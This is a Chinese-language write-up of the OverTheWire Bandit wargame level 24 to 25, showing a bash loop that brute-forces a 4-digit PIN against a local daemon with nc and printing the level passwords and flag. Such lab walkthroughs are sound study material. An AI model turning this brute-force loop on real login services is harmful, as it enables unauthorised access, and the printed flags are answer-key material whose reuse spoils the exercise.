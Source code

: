 # [Level 24 -> 25](http://overthewire.org/wargames/bandit/bandit25.html)

 暴力的 shell script。

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Writeups

這題的提示很清楚，就是要用暴力破解的方式，一個一個試。但我們是要利用shell script 幫我們完成這件事。首先，創建一個的目錄，方便我們撰寫 script 及存放執行結果：

```shell
bandit24@melinda:~$ mkdir /tmp/bandit25script
bandit24@melinda:~$ cd /tmp/bandit25script
bandit24@melinda:/tmp/bandit25script$
```

撰寫```script.sh```：

```shell
#!/bin/bash

for pin in {0..9}{0..9}{0..9}{0..9}
    do
         echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin" | nc 127.0.0.1 30002 >> result.txt &
    done
```

開啟```script.sh```執行權限並執行：

```shell
bandit24@melinda:/tmp/bandit25script$ chmod 700 script.sh
bandit24@melinda:/tmp/bandit25script$ ./script.sh
```

最後利用```uniq```找出 Flag：

```shell
bandit24@melinda:/tmp/bandit25script$ sort result.txt | uniq -u

Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```


找到了！Flag：```uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG```。

> [Next level（Level 25 -> 26）](https://github.com/YanHaoChen/OverTheWire-Writeups/blob/master/Bandit/Level25to26.md) 

